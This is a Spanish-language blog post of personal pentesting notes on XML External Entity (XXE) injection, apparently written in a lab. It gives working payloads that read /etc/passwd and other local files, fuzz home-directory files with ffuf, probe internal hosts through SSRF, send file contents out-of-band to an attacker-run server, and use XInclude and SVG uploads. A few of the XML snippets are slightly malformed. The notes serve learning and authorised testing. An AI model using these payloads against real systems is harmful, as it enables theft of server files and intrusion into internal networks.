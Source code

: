 ```yaml
---
title: Apuntes XXE
image: https://www.appsecmonkey.com/static/images/xxe/cover.jpg
description: Apuntes XXE 
categories: [Tutorial]
tags: [hacking,notes]
---
```


## Inicio

> https://www.youtube.com/watch?v=UfILDa_qStQ
> 
> **hacktricks** https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html


Cuando hablamos de **XML External Entity** (**XXE**) **Injection**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.


![](/assets/img/Anexos/Pasted%20image%2020250214172109-1.png)


![](/assets/img/Anexos/Pasted%20image%2020250214172652-1.png)


Las entidades se pueden manipular con un **DTD (Document Type Definition)**:
```XML
<!DOCTYPE foo [ <!ENTITY mail "hola"> ]>
```
![](/assets/img/Anexos/Pasted%20image%2020250214172903-1.png)



Entonces aquí, podriamos probar entidades predefinidas para tensarla que hay unas cuantas:

![](/assets/img/Anexos/Pasted%20image%2020250214173318-1.png)


## Uso de wrappers para cambiar la presentación de los datos
La idea sigue siendo la misma, declarar una entidad, pero usando wrappers 

**Wrapper file**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

![](/assets/img/Anexos/Pasted%20image%2020250214174805-1.png)


### XXE FUZZ 
Si podemos usar el wrapper anterior, podemos fuzzear por directorios con `ffuf` de la siguiente manera: 
```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -u http://192.168.1.44/magic.php  -d '<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/david/FUZZ"> ]> <details><email>&xxe;</email><password>das</password></details>' --fw 11
```


## XXE + SSRF
SSFR (Server-side Request Forgery) consinste en visualizar puertos, servicios , secciones de una máquina o servidor aprovechándonos de un campo o utilidad del mismo: 
![](/assets/img/Anexos/Pasted%20image%2020250215185340-1.png)

Entonces abusando de **XXE** podemos hacer algo parecido. Por ejemplo, con el **wrapper** `http://`:
```XML
<!DOCTYPE foo [ <!ENTITY xxe "http://192.168.1.10/etc/passwd"> ]>
```

![](/assets/img/Anexos/Pasted%20image%2020250215185536-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250215185638-1.png)

Entonces, a través de un XXE podemos acceder a recursos, en este caso, de nuestra máquina.

Entonces por ejemplo **podríamos llegar a ver/acceder a una máquina de la red de la máquina víctima.**

![](/assets/img/Anexos/Pasted%20image%2020250215190001-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250215190254-1.png)

Ahora a ir fuzeando 

![](/assets/img/Anexos/Pasted%20image%2020250215190613-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250215190743-1.png)



Ahora con esto, lo que vamos a hacer es en nuestra máquina crearnos una entidad
 

## XXE a ciegas out-of-band | No permite injectar entidades | DTD externo

```XML
<!DOCTYPE foo [ <!ENTITY % xxe "http://192.168.1.10/malicioud"> %xxe; ]>
```


Esta se produce cuando de primeras en la comprobación, no ves que se está aconteciendo un xxe:

![](/assets/img/Anexos/Pasted%20image%2020250215192138-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250215192216-1.png)


![](/assets/img/Anexos/image%2010%204.png)

![](/assets/img/Anexos/image%2011%204.png)

Entonces podemos probar un **XXE out-out-band** que seria llamar a una **url externa** para **exportar** la información/entidades para **verla de nuestro lado**


Cuando hay páginas que no permiten inyectar entidades, podemos llamar a la entidad en el propio DOCTYPE:

![](/assets/img/Anexos/Pasted%20image%2020250215192850-1.png)

Entonces, aqui pasamos el /etc/passwd a un servidor nuestro que tenemos montado en python 

![](/assets/img/Anexos/image%2014%204.png)

A veces no hace falto ni poner el wrapper

![](/assets/img/Anexos/image%2018%203.png)



## XXE a ciegas via error messages

![](/assets/img/Anexos/Pasted%%2020250216095226-1.png)

Cuando veamos que hay errores en la respuesta, nos podemos aprovechar de ellos para cargar datos.

Esto se hace haciendo la petición a nuestro .dtd y que este carga un fichero que no existe, **forzando un error** el cual nos mostrará data. 

![](/assets/img/Anexos/Pasted%20image%2020250216095558-1.png)


![](/assets/img/Anexos/Pasted%20image%2020250216095631-1.png)


## Exploting XInclude to retrieve files 

Cuando no podamos modificar el DOCTYPE, porque no lo hay, en los elementos metemos este código


```XML
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```


![](/assets/img/Anexos/Pasted%20image%2020250216100809-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250216100749-1.png)


## XXE via Imagen 
```XML
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Esto sucede en webs en las que podemos subir una imagen 

![](/assets/img/Anexos/Pasted%20image%2020250216101200-1.png)

Metemos 

![](/assets/img/Anexos/Pasted%20image%2020250216101217-1.png)

Si no funciona de primeras, con Burpsuite lo unificamos todo: 

![](/assets/img/Anexos/Pasted%20image%2020250216101332-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250216101355.png)

Ahora al abrir la imagen, esta tendrá la data que le pedimos 

![](/assets/img/Anexos/Pasted%20image%2020250216101414.png)




